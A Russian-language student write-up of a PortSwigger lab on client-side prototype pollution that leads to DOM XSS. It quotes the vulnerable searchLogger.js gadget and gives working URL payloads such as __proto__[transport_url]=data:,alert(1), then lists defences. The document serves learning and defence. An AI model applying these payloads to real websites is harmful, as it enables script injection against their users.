



лаба https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution

в этой лабе Prototype Pollution приводит к  DOM XSS

задание: 

1) найти место где можно влиять на js/ добавлять прототипы
2) понять как выполнять js код и вызвать алерт

---
 один скрипт тоже висит в карте сайта по адресу `GET /resources/js/searchLogger.js HTTP/2`
этот скрипт подгрузился сам - при первом открытии сайта

```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 657

async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;   // config.transport_url берется из прототипа!
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

разбор функции: searchLogger

```js
async function searchLogger() {
    // создается объект config. В него кладутся параметры из URL
    // важго: у config НЕТ свойства transport_url
    let config = {params: deparam(new URL(location).searchParams.toString())};

    // вот тут начинается магия!
    // JavaScript ищет config.transport_url
    // своего  config.transport_url нет - идет искать в прототип (Object.prototype)
    if(config.transport_url) {
        // если нашел - создает новый скрипт!!!!1
        let script = document.createElement('script');
        // берет значение transport_url и сует его в src
        script.src = config.transport_url;
        // добавляет скрипт на страницу
        document.body.appendChild(script);
    }

    // дальше просто логирование, неважно
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

---------

запускаю по всем местам на сайте пейлоад - добавляя в url 
вот так
`https://0a3800480415297d82abb0f100a800a7.web-security-academy.net/?__proto__[foo]=bar`


теперь в консоли ввожу

`console.log(Object.prototype);`

ответ

```c
{foo: 'bar', 
__defineGetter__: ƒ, 
__defineSetter__: ƒ, 
hasOwnProperty: ƒ, 
__lookupGetter__: ƒ, 

…}foo: "bar"constructor: ƒ Object()hasOwnProperty: ƒ hasOwnProperty()isPrototypeOf: ƒ isPrototypeOf()propertyIsEnumerable: ƒ propertyIsEnumerable()toLocaleString: ƒ toLocaleString()toString: ƒ toString()valueOf: ƒ valueOf()__defineGetter__: ƒ __defineGetter__()__defineSetter__: ƒ __defineSetter__()__lookupGetter__: ƒ __lookupGetter__()__lookupSetter__: ƒ __lookupSetter__()__proto__: (...)get __proto__: ƒ __proto__()set __proto__: ƒ __proto__()

```

то значит, что свойство `foo` со значением `bar` УСПЕШНО ДОБАВЛЕНО в `Object.prototype`
ЭТО источник prototype pollution!!

----

пробую еще раз

`https://0a3800480415297d82abb0f100a800a7.web-security-academy.net/?__proto__[test]=hackHuiack`

проверка в консоле `Object.prototype.test`  и `console.log(Object.prototype);`

проверка удалась! вижу в консоли - что пейлоад отражается!







----

теперь пробую простой эксплойт пропихнуть

`/?__proto__[transport_url]=data:,alert(1);`

выполняю запрос в строке
`https://0a3800480415297d82abb0f100a800a7.web-security-academy.net/?__proto__[transport_url]=data:,alert(1);`

и вуаля - алерт есть!

получается, что пэйлоад не стал частью HTML-страницы напрямую, но он тупо внедрился в работу JS-движка (в самое его сердце - в `Object.prototype`), изменив поведение программы, и заставил ее саму сгенерировать вредоносный скрипт, который и выполнил мой код

таким способом можно и тупо скинуть ссылку вредоносную

и ЛАБА РЕШЕНА!!!!!!!




------


### почему этот эксплойт  исполнил мой JS-код?

Это произошло из-за цепочки событий, которую называют ==гаджет==. Вот как это сработало шаг за шагом:

1. Загрязнение, мой пэйлоад добавил в `Object.prototype` свойство `transport_url` со значением `data:,alert(1);`


## Object.prototype — это "Прародитель" всех объектов

в js стоит общий предок, от которого произошли все остальные. В JavaScript этим общим предком является `Object.prototype`

Это не просто какой-то объект. Это ==базовый прототип==, который есть у каждого объекта в JavaScript. 

Абсолютно у каждого: у простых объектов `{}`, у массивов `[]`, у строк `""`, у чисел, у функций — у всех!!!!!!!


2. **Создание объекта.** На странице работает скрипт `searchLogger.js`. Он создает объект `config`:
    
```js
let config = {params: deparham(new URL(location).searchParams.toString())};
```
    
    У этого объекта `config` **нет своего собственного** свойства `transport_url`
    
3. **Наследование!!** Когда JavaScript встречает строчку `if(config.transport_url)`, он начинает искать свойство `transport_url`:
    
    - Сначала ищет в самом объекте `config` - не находит
    - Тогда он поднимается по цепочке прототипов и находит его в `Object.prototype`, куда ты его и положил!
    - Условие становится истинным (`true`)
      
4. **Срабатывание гаджета** Выполняется код внутри `if`:
    
    ```js
    let script = document.createElement('script');
    script.src = config.transport_url; // config.transport_url берется из прототипа!
    document.body.appendChild(script);
    
    ```
    Создается тег `<script>` с атрибутом `src="data:,alert(1);"
    
5. **Выполнение кода** Браузер видит тег `<script src="data:,alert(1);">` и выполняет его содержимое
    `data:,alert(1);` - это Data URL, который говорит браузеру выполнить код `alert(1);`

-----


#### выводы

в этой лабе я использовал prototype pollution, чтобы выполнить dom xss, через URL

источником уязвимости стал параметр в строке запроса url

добавив в url `/?__proto__[foo]=bar` - я смог добавить свойство foo в глобальный объект `Object.prototype`

это подтвердилось в консоли где `Object.prototype.foo` вернул bar

затем я изучил javascript файлы загружаемые на странице

в файле `searchLogger.js` нашел интересный код, там создавался объект config у которого не было своего свойства transport_url
,
но при этом в коде была проверка `if(config.transport_url)` и если свойство существовало, то значит - оно использовалось для создания нового тега script через `document.createElement('script')`

я, пообщался с дипсиком, (все таки первая лаба по теме этой ) и понял, что могу добавить transport_url в прототип через url и тогда объект config унаследует это свойство!

В итоге я перешел по url `/?__proto__[transport_url]=data:,alert(1)` и браузер добавил transport_url в прототип, ну и сам объект config его унаследовал, потом условие сработало и на страницу добавился тег script с src равным `data:,alert(1)`,  браузер выполнил этот код и появился alert, то есть это  грубо говоря XSS но через движок JS

#### защита

от prototype pollution защищаются несколькими способами:

- во первых =     нужно замораживать прототипы с помощью `Object.freeze(Object.prototype)`  ( после этого никакие свойства нельзя будет добавить в прототип) 
- 
- во вторых =       при создании объектов лучше использовать `Object.create(null)`  (такие объекты не имеют прототипа и не наследуют ничего из `Object.prototype`)
- 
- в третьих =        для хранения данных безопаснее использовать map вместо обычных объектов. map не наследует свойства из прототипа.
- 
- в четвертых =       если без мержа объектов не обойтись, нужно тщательно санитизировать ключи и не допускать использование ключей типа `__proto__` и `constructor`    НО НО разработчики часто блокируют ключ `__proto__`, думая что это защитит от загрязнения. Но есть обход через свойство **`constructor`**. поэтому конструктор тоже нужно блочить
--------

просто добавить эти ствойства в код. одна строчка кода - и проблем нет (или почти нет)

